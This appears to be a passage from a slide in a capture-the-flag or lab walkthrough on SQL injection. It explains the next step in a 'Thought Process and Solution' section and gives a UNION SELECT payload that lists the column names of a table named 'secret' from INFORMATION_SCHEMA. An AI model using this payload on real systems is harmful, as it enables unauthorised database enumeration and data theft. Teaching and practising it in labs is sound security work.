

# Thought Process and Solution
Now that we know there is a table called secret, lets use the command we learned from earlier to discover the columns within secret.
' UNION SELECT COLUMN_NAME, 0 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=‘secret